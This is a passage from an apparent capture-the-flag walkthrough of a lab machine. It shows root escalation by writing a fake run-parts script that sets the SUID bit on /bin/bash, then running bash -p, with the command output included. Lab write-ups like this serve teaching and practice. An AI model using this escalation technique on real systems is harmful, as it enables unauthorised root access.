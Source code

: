 ### Exploitation

Creating the malicious binary:

```bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

Disconnect and reconnect via SSH:

```bash
exit
ssh jkr@10.10.10.138
```

Verification:

```bash
ls -l /bin/bash
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-700 dark:text-green-300">
        -rwsr-xr-x 1 root root 1099016 ... /bin/bash
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SUID bit is now set on /bin/bash!
    </p>
</div>

## 👑 Phase 8 — Escalating to Root

### Execution with Preserved Privileges

Launching bash with `-p` option (preserve privileges):

```bash
/bin/bash -p
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        <strong>ROOT SHELL OBTAINED!</strong> euid=0(root) achieved.
    </p>
</div>
